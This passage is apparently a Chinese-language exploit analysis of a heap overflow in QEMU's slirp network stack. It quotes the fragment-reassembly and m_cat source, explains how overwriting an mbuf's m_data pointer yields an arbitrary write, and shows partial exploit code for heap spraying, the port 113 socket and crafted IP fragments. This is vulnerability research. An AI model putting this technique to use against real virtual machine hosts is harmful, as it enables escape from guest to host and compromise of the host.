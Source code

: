 ```
    q = fp-&gt;frag_link.next;
    m = dtom(slirp, q);

    q = (struct ipasfrag *) q-&gt;ipf_next;
    while (q != (struct ipasfrag*)&amp;fp-&gt;frag_link) `{`
      struct mbuf *t = dtom(slirp, q);
      q = (struct ipasfrag *) q-&gt;ipf_next;
      m_cat(m, t);
    `}`
`}`

/*
 * Copy data from one mbuf to the end of
 * the other.. if result is too big for one mbuf, allocate
 * an M_EXT data segment
 */
void
m_cat(struct mbuf *m, struct mbuf *n)
`{`
    /*
     * If there's no room, realloc
     */
    if (M_FREEROOM(m) &lt; n-&gt;m_len)
        m_inc(m, m-&gt;m_len + n-&gt;m_len);

    memcpy(m-&gt;m_data+m-&gt;m_len, n-&gt;m_data, n-&gt;m_len);
    m-&gt;m_len += n-&gt;m_len;

    m_free(n);
`}`
```

可以看到在`ip_input`中，当数据包是最后一个切片数据包时（IP_MF不为1），会在`ip_reass`函数中调用`m_cat`将数据包组合起来。关键代码是`memcpy(m-&gt;m_data+m-&gt;m_len, n-&gt;m_data, n-&gt;m_len)`，如果我们可以利用堆溢出覆盖`m`结构体的`m_data`，则就可以实现将可控的数据`n-&gt;m_data`写到任意的地址`m-&gt;m_data+m-&gt;m_len`处。

exp中任意地址写函数关键代码如下，首先利用malloc原语将清空堆，使得堆排布可控。接着利用与host主机113端口建立socket连接，申请出来可溢出的`struct sbuf *so_rcv`结构体。紧接着在后面分配一个ip切片数据包`mbuf`，其id为0xdead。由于堆的排布，该数据包是紧贴着`so_rcv`的，可以利用堆溢出覆盖`mbuf`中的`m_data`指针。最后再次发送相同id（0xdead）并且MF标志为0的数据包，`memcpy`拷贝至`m_data`指针处时，实现任意地址写。

```
....
    //使堆排布可控
        for (i = 0; i &lt; spray_times; ++i) `{`
        dbg_printf("spraying size 0x2000, id: %dn", i);
        spray(0x2000, g_spray_ip_id + i);
    `}`
        ...
    //建立溢出buffer so_rcv
        s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr(host);
    ip_addr.sin_port = htons(113); // vulnerable port
    len = sizeof(struct sockaddr_in);
    ret = connect(s, (struct sockaddr *)&amp;ip_addr, len);
    if (ret == -1) `{`
        perror("oops: client");
        exit(1);
    `}`

        //建立mbuf 
    pkt_info.ip_id = 0xdead;
    pkt_info.ip_off = 0;
    pkt_info.MF = 1;
```